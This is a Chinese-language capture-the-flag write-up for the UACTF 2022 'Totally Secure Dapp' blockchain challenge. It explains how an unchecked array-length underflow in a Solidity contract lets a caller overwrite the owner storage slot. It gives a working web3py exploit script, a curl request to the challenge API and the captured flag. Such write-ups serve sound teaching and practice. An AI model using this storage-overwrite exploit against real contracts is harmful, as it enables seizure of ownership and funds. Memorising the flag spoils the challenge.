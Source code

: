 ```yaml
---
title: Web - Totally Secure Dapp
description: 2022 | UACTF | Web
tags:
    - blockchain
---
```


## 题目

It's on the blockchain, and there's no way anything on the blockchain could ever have any vulnerabilities.

Note, because the contract is on Ropsten, some transactions might fail. If that happens, just keep retrying.

Get test ether from https://faucet.metamask.io/

https://totally-secure-dapp.vercel.app/

[:material-download: `totally-secure-dapp.zip`](static/totally-secure-dapp.zip)

## 解题思路

- https://totally-secure-dapp.vercel.app/ 主要提供了 `New Post` 和展示 Post 的功能，Post 记录上链
- 提供了两份合约代码，Post 相关操作函数位于 `TotallySecureDapp.sol`，当调用者为 `owner` 且合约账户的余额大于 `0.005` 以太时可以触发 `FlagCaptured` 事件

    ```js
    modifier onlyOwner() {
        require(msg.sender == _owner, 'Caller is not the owner');
        _;
    }

    function captureFlag() external onlyOwner {
        require(address(this).balance > 0.005 ether, 'Balance too low');
        _flagCaptured = true;
        emit FlagCaptured(msg.sender);
    }
    ```

- 除此之外，能够调用的函数有 `addPost`、`editPost`、`removePost` 和 `nPost`。注意到 `removePost` 中 `length` 的减法没有使用 `SafeMath` 或在使用前进行判断

    ```js
    function addPost(string title, string content) external {
        Post memory post = Post(title, content);
        _posts.push(post);
        _authors.push(msg.sender);
        emit PostPublished(msg.sender, _posts.length - 1);
    }

    function editPost(
        uint256 index,
        string title,
        string content
    ) external {
        _authors[index] = msg.sender;
        _posts[index] = Post(title, content);
        emit PostEdited(msg.sender, index);
    }

    function removePost(uint256 index) external {
        if (int256(index) < int256(_posts.length - 1)) {
            for (uint256 i = index; i < _posts.length - 1; i++) {
                _posts[i] = _posts[i + 1];
                _authors[i] = _authors[i + 1];
            }
        }
        _posts.length--;
        _authors.length--;
        emit PostRemoved(msg.sender, index);
    }

    function nPosts() public view returns (uint256) {
        return _posts.length;
    }
    ```

- 因为数组长度可控且可编辑指定下标的数组元素，接下来只需要通过 `editPost` 覆盖 `owner` 变量
    - `string` 类型的变量存储方式与 `address` 类型的不同，当长度小于 $32$ 字节时，元素存储在高位，低位存储字符串字节长度，当长度大于 $31$ 字节时，存储方式与数组类似
    - 建议通过 `_authors` 数组完成覆盖操作

    ```js
    // contract Initializable
    bool private _initialized;  // slot 0
    bool private _initializing; // slot 0

    // contract TotallySecureDapp is Initializable
    struct Post {
        string title;
        string content;
    } // 2 slots

    string public _contractId; // slot 1
    address public _owner; // slot 2
    address[] public _authors; // slot 3
    Post[] public _posts; // slot 4
    bool public _flagCaptured; // slot 5
    ```

- 另外，合约 `TotallySecureDapp` 不接受直接转账，所以需要一些特殊手段 >v< 比如 `selfdestruct`

    ```js
    function() external payable {
        revert('Contract does not accept payments');
    }
    ```

- 给 `TotallySecureDapp` 合约实例转账后，通过 web3py 与合约进行交互

    ```py
    from web3 import Web3
    import json, time

    # 在 https://infura.io/ 注册一个账号并创建一个项目可获得 API key
    w3 = Web3(Web3.HTTPProvider("https://ropsten.infura.io/v3/<api-key>"))

    account = w3.eth.account.from_key("<your-private-key>")

    contract_address = "<totallysecuredapp-instance-address>"

    abi = json.loads(open('abi.json').read())
    contract = w3.eth.contract(address=contract_address, abi=abi)

    # 先调用 removePost 使数组长度下溢出
    tx = contract.functions.removePost(1).buildTransaction({"from": account.address, "nonce": w3.eth.getTransactionCount(account.address)})
    signed_tx = account.signTransaction(tx)
    print(w3.eth.sendRawTransaction(signed_tx.rawTransaction).hex())

    time.sleep(30)  # 等待交易确认

    # 修改 owner
    index = 2**256 - int(Web3.soliditySha3(['uint256'], [3]).hex(), 16) + 2
    tx = contract.functions.editPost(index, "unimportant", "unimportant").buildTransaction({"from": account.address, "nonce": w3.eth.getTransactionCount(account.address)})
    signed_tx = account.signTransaction(tx)
    print(w3.eth.sendRawTransaction(signed_tx.rawTransaction).hex())

    time.sleep(30)

    # emit FlagCaptured
    tx = contract.functions.captureFlag().buildTransaction({"from": account.address, "nonce": w3.eth.getTransactionCount(account.address)})
    signed_tx = account.signTransaction(tx)
    print(w3.eth.sendRawTransaction(signed_tx.rawTransaction).hex())
    ```

- [TotallySecureDapp | Address 0x014a2a17aa06c26c660fb4a269ac87849d38fd0a | Etherscan](https://ropsten.etherscan.io/address/0x014a2a17aa06c26c660fb4a269ac87849d38fd0a#events) 可以看到 `FlagCaptured` 事件被成功触发了，但是 Flag 在哪？
- 起初以为是事件的返回值，但查日志也最多只能获得传参。想到是 Web 题，跑去翻了翻源码，发现 `pages/api/secret.ts` 中提供了获取 Flag 的接口，请求参数包括 `userAddress`、`contractAddress` 以及 `userId`

    ```ts
    const { userAddress, contractAddress, userId } = req.body as ReqData;
    ```

    ```ts
    const owner = await contract._owner();
    const flagCaptured = await contract._flagCaptured();
    const balance = await provider.getBalance(contractAddress);
    if (owner === userAddress && flagCaptured && balance.gt(parseEther('0.005'))) {
        const ids = db.collection('users').doc('ids');
        if (!ids) {
            res.status(500).json({ error: 'Failed to load ids' });
            return;
        }
        const id = (await ids.get()).get(userAddress.toLowerCase());
        if (id !== userId) {
            res.status(401).json({ error: 'Unauthorised' });
            return;
        }
        const flag = process.env.FLAG;
        res.status(200).json({ flag: flag });
        return;
    }
    ```

- 合约相关的条件都已满足，还差一个 `userId`，搜了搜源码，在 `components/connector/ConnectModal.tsx` 下找到了

    ```tsx
    window.localStorage.setItem('user-id', id);
    ```

- 在控制台输入 `localStorage.getItem('user-id')` 即可获得对应账户的 `userId`
- 调用 API 接口

    ```bash
    $ curl -d '{"userAddress":"0xe09f6d20E2522F6B971b4516744946CF17BE8432", "contractAddress":"0x014A2a17AA06C26C660FB4A269aC87849d38Fd0A", "userId": "RIHIaESfxzilmF10mmBpH"}' -H "Content-Type: application/json" -X POST https://totally-secure-dapp.vercel.app/api/secret
    {"flag":"UACTF{23411y_m394_5u5_f149}"}
    ```

### Flag

> UACTF{23411y_m394_5u5_f149}